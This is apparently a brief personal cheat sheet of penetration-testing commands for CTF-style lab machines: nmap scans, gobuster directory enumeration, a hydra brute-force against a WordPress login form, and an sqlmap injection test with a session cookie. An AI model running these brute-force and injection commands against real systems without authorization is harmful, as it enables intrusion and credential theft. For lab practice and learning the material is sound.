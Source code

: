 ##We are going to do basic of Hacking

#Enumeration
1. nmap -Sc -sV <`ip address>
2. nmap -sT <'ip address>
3. nmap -sP <'ip address>

#Enumeration
1. gobuster dir -u <`ip address> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

#BruteForcing

1. hydra -L fsocity.txt -p mypassword 192.168.10.100 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:Invalid username"

Sqlmap
1. sqlmap -u 'http://10.129.233.138/dashboard.php?search=any+query' --cookie="PHPSESSID=9qik8dt7ol8fpsbi63t0beft1l"